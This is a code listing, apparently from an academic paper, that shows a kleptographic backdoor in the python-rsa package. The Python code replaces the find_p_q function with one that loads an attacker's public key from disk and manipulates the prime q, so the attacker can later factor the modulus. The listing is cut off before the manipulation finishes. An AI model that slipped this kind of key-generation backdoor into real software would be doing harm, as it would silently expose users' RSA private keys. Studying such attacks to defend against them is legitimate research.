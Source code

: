 \begin{lstlisting}[language=PyBrIM]
# ------------ Malicious code starts here ------------
"""
Two options for manipulating with the find_p_q function:

1. Option:
    - Before runtime store find_p_q in a variable (__find_p_q)
    - Delete the original find_p_q function
    - ***Attack-Step***
2. Option:
    - At runtime import sys
    - Store the runtime function find_p_q in a variable (__find_p_q)
    - ***Attack-Step***
    - Afterwards replace the runtime function with the overwritten function find_p_q

Attack-Step:
    - Replace the original find_p_q function with the new one
    - Call the new function with the same arguments
    - After receiving p and q by call __find_p_q with the same arguments
    - With p and the public key of the attacker calculate the new q
    - return the p and the new q
"""

"""
# Option 1
"""
del find_p_q  # This might not be necessary, but could avoid a warning about the shadowed name.

"""
# Option 2 --- Part 1
"""
# import sys
# __find_p_q = sys.modules['rsa.key'].find_p_q

"""
Attack-Step:
"""


def find_p_q(
        nbits: int,
        getprime_func: typing.Callable[[int], int] = rsa.prime.getprime,
        accurate: bool = True,
) -> typing.Tuple[int, int]:
    """
    This methode shows a kelptographic attack on the python-rsa package.
    Using a RSA-public key of the attacker in the root-directory the return value q is manipulated affecting
    the product of p and q, the public modulus. After a successful attack the attacker can derive the value
    of q from the public modulus, using the private key of the attacker.
    """
    supported_nbits = [32, 64, 128, 256, 512, 1024]
    if nbits not in supported_nbits:
        raise ValueError("Unsupported nbits")

    # TODO pure python implementation path
    from os import path
    resources_dir = path.dirname(path.dirname(__file__))

    in_file = open(resources_dir + '\\attack_key_' + str(nbits), 'rb')
    attack_key = rsa.key.PublicKey.load_pkcs1(in_file.read())
    in_file.close()

    """
    There are multiple options for the optimizer. The optimizer in general limits the value of p. Normally 
    this is not intended in the RSA-algorithm but it helps with the runtime of the attack / generation.
    By incrementing the optimizer by one the margin between lower and upper bound of q roughly doubles.
    On the alternative the RSA-algorithm intends to set such limitations for q (Condition 5):
    bit_size(q) <= nbits - nbits/2.
    Since the optimizer is subtrahend of the minuend nbits and p and q are interchangeable within the 
    prime factor generation, the optimizer is set to nbits/2.  
    """
    optimizer = nbits // 2


\end{lstlisting}
